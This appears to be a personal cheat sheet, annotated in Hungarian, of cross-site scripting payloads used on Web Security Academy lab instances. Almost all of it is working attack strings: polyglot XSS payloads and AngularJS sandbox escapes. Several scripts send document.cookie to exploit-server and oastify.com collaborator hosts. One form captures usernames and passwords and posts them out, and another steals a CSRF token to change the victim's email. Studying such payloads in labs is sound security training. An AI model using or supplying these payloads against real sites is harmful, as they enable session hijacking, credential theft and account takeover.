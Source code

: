 <><SCript>alert(1)</SCript>


"><svg onload=alert(1)>


<img src=1 onerror=alert(1)>

commentben:
<><img src=1 onerror=alert(1)>

javascript:alert(document.cookie)


exploit serverbe:
<iframe src="https://0a18008d03221cf38046036c00c20021.web-security-academy.net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>


jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert("letesztelni") )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert("letesztelni")//>\x3e


jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert(document['cookie']) )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert(document['cookie'])//>\x3e


"></select>jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert("letesztelni") )//%0D%0A%0D%0A//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert("letesztelni")//>\x3e


"onmouseover="alert(1)


{{constructor.constructor('alert(1)')()}}


{{$on.constructor('alert(1)')()}}


\"-alert(1)}//


<xss id=x tabindex=1 onfocus=alert(1)><


jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert(1) )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert(2)//>\x3ea
<><img src=1 onerror=alert(3)>


<><img src=1 onerror=alert(1)>


exploit serverbe:
<script>
location = 'https://0add00df0415f10881e16b000075005b.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x';
</script>


exploit serverbe:
<iframe src="https://0ae800cc04eb684982872ac0006500e6.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=document.location=`https://exploit-0a32008804f9687e82932985016800df.exploit-server.net/?kookie=`+document.cookie%3E" onload=this.style.width='100px'>


httéps://blablabla.net/ után:
?'accesskey='x'onclick='alert(1)


httéps://blablabla.net/?search= után:
%22%3E%3Csvg%3E%3Canimatetransform%20onbegin=alert(1)%3E


\'-alert(1)//


</script><script>alert(1)</script>


Website mezőben:
http://foo?&apos;-alert(1)-&apos;


${alert(1)}


commentben:
<script>
    fetch('https://xyzbptj5cccuj168v3n6d8yklbr2ft3i.oastify.com', {
    method: 'POST',
    mode: 'no-cors',
    body:document.cookie
    });
</script>


commentben:
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://rid59n3zw6wo3vq2fx70x2ie55bwzond.oastify.com',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">


commentben:
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>
